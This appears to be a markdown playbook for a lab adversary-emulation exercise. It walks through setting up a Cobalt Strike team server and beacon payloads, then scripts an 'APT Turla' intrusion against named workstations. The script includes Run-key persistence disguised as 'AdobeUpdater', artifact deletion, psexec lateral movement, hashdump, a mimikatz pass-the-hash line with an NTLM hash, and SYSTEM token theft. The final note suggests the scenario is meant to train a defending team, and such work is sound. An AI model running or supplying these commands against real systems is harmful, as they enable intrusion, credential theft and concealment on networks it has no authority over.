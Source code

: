 # **Setting up Cobaltstrike**

* Be root for the setup process.
```md
> sudo su
```
## Start Python3 http.server.
```md
> mkdir Downloads/beacons
> cd Downloads/beacons
> python3 -m http.server 8000
```
>***Note: This will be where your payloads are hosted. Or you could just host them through your cobalt strike instance which is simple. Figure it out yourself.***
## Start a team server
   *  (must be root / Sudo su) 

```md
> cd /usr/bin/cobaltstrike
> ip -br a
> ./teamserver <Ip_address> <password> 
# In a new tab, run the following commands to connect to the team server:
> cd /usr/bin/cobaltstrike
> ./cobaltstrike
# A prompt will appear
```
* Enter the `<eth1_ip_address>` of the teamserver and `password` in the appropriate boxes.

*The User field can be changed to the name of the kali box, but it is unnecessary.*
* Click `Connect` then click Yes.

## Configure listeners

* Select the `Listeners` tab within the Cobalt Strike GUI. 
* Select `Add` at the bottom of the tab. A prompt will appear with the following options: 
  * Name: Enter the type of listener you are setting up. (HTTP)
  * Payload: Select the payload (.exe)
  * Hosts: Add hosts by clicking on the plus sign. A small prompt will appear.
  * Host(Stager): Type the domain set in your DNS server.
  * Profile: Default
  * Click Save


>***Note: SMB does not have these options.  Accept the defaults.***
## Build the payloads
* Select `Attacks` on the Menu Bar and then select `Packages`.
* Select the appropriate beacon type based on the table above.
* Select the "..." button next to “listener” and select the listener based on the table.
* Select the output based on the table above.
* Click on Generate
* Save the executable to the /root/Downloads/beacons directory using `"TwoFace.exe"`
  * Repeat the above steps and name the next payload `"Mosquito.exe"`

>***Note: Check the box x64: Use x64 payload (Since we know we are on windows 10 machines and x64 will be less prone to breaking)*** 


# **APT Turla**
***This APT is known to use Cobalt Strike***
* Browse to, Save, and Run TwoFace.exe on BLDG1-2-WS11 under user judah.clark (Domain Admin).
  * Once the beacon calls back interact with it and enter the following commands at an interval of your choice.

## Inside of the Initial beacon (Twoface.exe) 

```md
> cd C:\Windows\System32
> upload Mosquito.exe 
> powerpick reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Run\ /v "AdobeUpdater" /t REG_SZ /d C:\Users\judah.clark\Documents\Mosquito.exe
> powerpick start-process -file Mosquito.exe 
> powerpick stop-process -name TwoFace
> ps
```
>***Note: We Set persistence with a new payload that was uploaded through our initial access and then stopped our first beacon***

## Inside of the new beacon (Mosquito.exe)
```md
> powerpick Remove-Item 'C:\Users\judah.clark\Documents\TwoFace.exe'
> jump psexec64 BLDG1-1-WS13 SMB
> jump psexec64 BLDG1-1-WS12 SMB
```
>***Note: Removed the artifact "TwoFace.exe" and moved laterally via jump***
## Inside of the SMB Beacon on WS13
```md
> powerpick tasklist /v
> hashdump
  * use the output of the hashdump for mimikatz
> mimikatz sekurlsa::pth /user:Administrator /domain:./ntlm:dade81da118816138bfa7b4779a80f88 /run:"powershell -w hidden"
> steal_token 2836
```
>***Note: Look at the tasklist to determine which process you will steal the token for. Look for SYSTEM and Impersonate it with steal_token \<PID>***
## Inside of the SMB Beacon on WS12
```md
> sleep 500
```
>***Note: Leave this beacon alone and see if the team can recognize what it is.***